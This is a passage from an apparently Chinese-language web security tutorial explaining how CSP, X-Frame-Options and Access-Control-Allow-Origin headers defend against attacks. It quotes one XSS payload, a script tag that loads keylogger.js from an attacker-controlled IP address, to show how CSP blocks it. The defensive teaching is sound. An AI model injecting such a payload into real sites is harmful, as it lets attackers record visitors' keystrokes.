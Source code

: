 这么说可能有点抽象，下面让我们一起看一个示例，来帮助我们理解CSP的作用。

```
Content-Security-Policy: script-src 'self'

```

这是一个CSP标志配置示例，它的值为 `script-src 'self'`，这代表会对JavaScript代码的加载做一些限制，仅允许加载与Web页面相同来源的JavaScript代码。注意，**这里的相同来源指的是相同的协议、域名和端口。**

回顾我们用XSS攻击实现按键记录的过程，我们需要利用如下语句加载恶意服务器上的 `keylogger.js` 的内容，从而实现按键记录功能。

```
<script%20src=http://192.168.3.193/keylogger.js></script>

```

可如果被攻击的Web应用添加了上述CSP策略，就会导致我们的JavaScript代码加载失败，从而无法实现我们的攻击行为。

下面，让我们继续学习X-Frame-Options安全标志的功能。

### X-Frame-Options标志

X-Frame-Options响应头也是一个重要的HTTP Header安全标志，它用来配置是否允许一个页面可在 、、 或者  中展现设置的内容。

接下来，我们一起来看一个示例：

```
X-Frame-Options: DENY

```

在这个示例中，我们将它的值设为DENY，表示该页面不允许在frame等上述标签中展示任何内容。事实上，它还有两个可能取值SAMEORIGIN以及ALLOW-FROM uri。其中SAMEORIGIN代表仅允许在上述标签中展示与当前页面域名相同的内容，而ALLOW-FROM uri则代表仅允许在其中展示uri对应页面的内容。

还记得我们在XSS学习中，曾今利用XSS攻击实现了广告的植入操作，产生的效果如下图所示：

![图片](assets/8ca231f9bbcc4f829c571f65af3fc9df.jpg)

如果Web应用在响应中配置了这一标签，那么就可以有效地抵御广告的植入。

接下来，我们继续来学习另一个常用的HTTP协议响应头，即Access-Control-Allow-Origin，它可以用来进行资源的访问权限设置。

### Access-Control-Allow-Origin标志

Access-Control-Allow-Origin标志指定了该响应的资源是否被允许与给定的origin共享。

为了让你更好地理解，下面让我们一起来看一些示例：

```
Access-Control-Allow-Origin: *
# 或
Access-Control-Allow-Origin: https://mituan.zone

```

它有两种配置方式，第一种将它的值设为\*，这代表允许所有域名访问当前响应的资源。第二种将它的值设为一个具体的uri，这代表仅允许该域名访问当前响应的资源。因此，**Access-Control-Allow-Origin标志可以使网站之间安全地跨域获取资源。**

最后，我们来看一个相对熟悉一些的HTTP响应头Set-Cookie。

